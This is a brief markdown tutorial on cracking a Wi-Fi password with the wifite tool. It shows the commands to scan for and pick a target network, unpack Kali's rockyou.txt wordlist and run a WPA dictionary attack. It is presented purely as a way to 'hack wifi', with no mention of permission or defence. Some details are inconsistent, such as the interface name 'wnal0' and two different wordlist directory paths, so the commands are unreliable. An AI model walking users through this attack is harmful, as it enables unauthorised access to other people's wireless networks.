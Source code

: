 # Hack wifi using Wifite
```bash
sudo wifite
```
It will turn on monitor mode to your network interface wnal0 and will show the available metworks. When you ready, press "ctrl + c" and choose the target wifi (by the number provided by the wifite). Then if you press the enter, it will try to crack and create a txt file named "wordlist-probable.txt" where thousands possible password will be stored to crack. 

Kali linux comes with default wordlist where millions possible passwords are stored. For that execute
```bash
cd /usr/share/wordlist && gzip -d rockyou.txt.gz
```
To know how many passwords are stored, execute
```bash
wc -l rockyou.txt
```
From the output, you can see that there are around 14344392 possible passwords. You can use this file to attack the wifi
```bash
wifite --wpa --dict /usr/share/wordlists/rockyou.txt --kill
```
And if it finds the password, then you are good to go